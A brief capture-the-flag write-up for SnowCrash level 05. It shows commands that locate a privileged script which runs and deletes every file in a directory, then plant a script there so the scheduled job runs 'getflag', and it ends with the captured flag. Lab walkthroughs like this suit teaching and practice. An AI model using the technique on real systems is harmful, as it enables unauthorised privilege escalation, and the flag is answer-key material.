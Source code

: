 # Level 05

```bash
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script executes all files in the /opt/openarenaserver then removes them

We create a file and wait for the script to be ran (in a cron ?)
```bash
echo "getflag > /tmp/toto" > opt/openarenaserver/toto.sh
```
```bash
cat /tmp/toto
```

**Flag** : viuaaale9huek52boumoomioc
